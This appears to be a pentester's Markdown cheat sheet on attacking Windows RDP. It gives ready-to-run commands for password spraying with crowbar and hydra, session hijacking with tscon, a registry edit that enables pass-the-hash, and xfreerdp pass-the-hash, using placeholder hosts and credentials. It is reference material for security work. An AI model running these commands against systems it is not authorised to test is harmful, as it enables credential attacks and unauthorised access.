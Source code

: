 # RDP

## About

<mark style="color:red;">**Remote Desktop Protocol (RDP)**</mark> is a <mark style="color:purple;">**protocol**</mark> developed by **Microsoft** for remote access to a computer running the Windows OS. This protocol allows display and control commands to be transmitted via the **GUI** encrypted over **IP** networks. Works at <mark style="color:yellow;">**Application Layer**</mark> of **TCP/IP model**, typically using <mark style="color:yellow;">**TCP/3389 port.**</mark>  If **Network Address Translation (NAT)** is used on the route between client and server, as is often the case with Internet connections, the remote computer needs the public IP address to reach the server. It uses <mark style="color:yellow;">**TLS/SSL.**</mark>

## Connecting

#### Rdesktop

```bash
rdesktop -u carni17 -p 'amogus' -d domain.kek 13.13.13.13
```

#### Xfreerdp

```bash
xfreerdp /u:carni17 /p:amogus /v:13.13.13.13 /d:domain.kek /cert:ignore
```

#### Remmina (GUI)

```bash
reminna
```

## Password Spraying

#### Crowbar

```bash
crowbar -b rdp -s 13.13.13.13/32 -U users.txt -c 'amogus'
```

#### Hydra

```bash
hydra -L users.txt -p 'amogus' 13.13.13.13 rdp
```

## Session Hijacking

<mark style="color:orange;">**We need SYSTEM privileges**</mark> and use <mark style="color:green;">**tscon.exe**</mark> (allows to connect to another desktop session) [**\[LINK\]**](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tscon)

```powershell
tscon 13 /dest:CARN3
```

## Pass-The-Hash

By default, Windows has disabled <mark style="color:green;">**`Restricted Admin Mode`**</mark>, and we need to fix that by adding new registry key to <mark style="color:green;">**`DisableRestrictedAdmin`**</mark>

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

And then to use <mark style="color:green;">**xfreerdp**</mark> for Pass The Hash

```powershell
xfreerdp /v:13.13.13.13 /u:carni7 /pth:12379NSKDFKSJDF20931C031
```

## Tips2Hack

1. **Nmap RDP Scan**

```bash
nmap -sV -sC 13.13.13.13 -p3389 --script rdp*
```

2. **RDP Security Check** [**\[LINK\]**](https://github.com/CiscoCXSecurity/rdp-sec-check)

```bash
./rdp-sec-check.pl 13.13.13.13
```

3. Initiate an **RDP** Session via <mark style="color:green;">**xfreerdp**</mark> (or <mark style="color:green;">**Remmina**</mark> with GUI)

```bash
xfreerdp /u:carni17 /p:"amogus" /v:13.13.13.13 /cert:ignore /d:DOMAIN
```

***
